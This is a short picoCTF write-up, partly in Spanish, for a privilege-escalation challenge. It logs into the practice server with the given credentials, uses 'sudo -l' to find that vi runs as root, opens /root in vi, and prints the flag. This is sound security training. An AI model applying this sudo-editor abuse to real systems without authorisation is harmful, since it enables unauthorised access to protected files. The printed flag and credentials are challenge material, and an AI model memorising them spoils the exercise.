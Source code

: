 ## Descripción

Can you read files in the root file?The system admin has provisioned an account for you on the main server:
`ssh -p 58826 picoplayer@saturn.picoctf.net`
Password: `e3pn6lmvHt`Can you login and read the root file?

## Pistas

1. What permissions do you have?

## Solución

`OmarSC-picoctf@webshell:~$ ssh -p 58826 picoplayer@saturn.picoctf.net`
`The authenticity of host '[saturn.picoctf.net]:58826 ([13.59.203.175]:58826)' can't be established.`
`ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.`
`This host key is known by the following other names/addresses:`
    `~/.ssh/known_hosts:11: [hashed name]`
`Are you sure you want to continue connecting (yes/no/[fingerprint])? yes`
`Warning: Permanently added '[saturn.picoctf.net]:58826' (ED25519) to the list of known hosts.`
`picoplayer@saturn.picoctf.net's password:` 
`Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)`

 * `Documentation:  https://help.ubuntu.com`
 * `Management:     https://landscape.canonical.com`
 * `Support:        https://ubuntu.com/advantage`

`This system has been minimized by removing packages and content that are`
`not required on a system that users do not log into.`

`To restore this content, you can run the 'unminimize' command.`

`The programs included with the Ubuntu system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by`
`applicable law.`

`picoplayer@challenge:~$ sudo -l`
`[sudo] password for picoplayer:` 
`Matching Defaults entries for picoplayer on challenge:`
    `env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin`

`User picoplayer may run the following commands on challenge:`
    `(ALL) /usr/bin/vi`
`picoplayer@challenge:~$ sudo vi /root`
`" ============================================================================`
`" Netrw Directory Listing                                        (netrw v165)`
`"   /root`
`"   Sorted by      name`
`"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$`
`"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special`
`" ==============================================================================`
`../`                                                                                                 
`./`
`.vim/`
`.bashrc`
`.flag.txt`
`.profile`
`.viminfo`
``picoCTF{uS1ng_v1m_3dit0r_f6ad392b}``
## Notas Adicionales

Con el `"sudo vi /root"` se pudieron ver los archivos y ya solo se navegó hasta donde estaba la flag y ya nos la arrojó.
## Referencias
- 

